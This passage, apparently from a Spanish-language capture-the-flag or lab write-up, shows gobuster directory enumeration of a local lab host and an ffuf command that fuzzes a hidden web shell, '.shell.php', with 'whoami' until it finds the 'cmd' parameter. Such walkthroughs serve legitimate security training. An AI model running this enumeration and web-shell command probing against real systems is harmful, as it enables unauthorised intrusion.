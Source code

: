 ```
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/backup.txt           (Status: 200) [Size: 53]
/hidden               (Status: 301) [Size: 309] [--> http://172.17.0.2/hidden/]
/index.html           (Status: 200) [Size: 1380]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
```

Vemos varias cosas interesantes, si vamos al `/backup.txt` veremos el siguiente texto:

```
Error 403: Forbidden. Directory listing is disabled.
```

Que no nos dice mucho, pero si recordamos tenemos una extension `.php` en el archivo `.shell.php` por lo que vamos a probar a ver si tuviera algun parametro vulnerable en el que se pueda hacer injeccion de codigo:

## FFUF

```shell
ffuf -u http://<IP>/hidden/.shell.php\?FUZZ\=whoami -w <WORDLIST> -fs 0
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/hidden/.shell.php?FUZZ=whoami
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 4ms]
:: Progress: [20469/20469] :: Job [1/1] :: 99 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
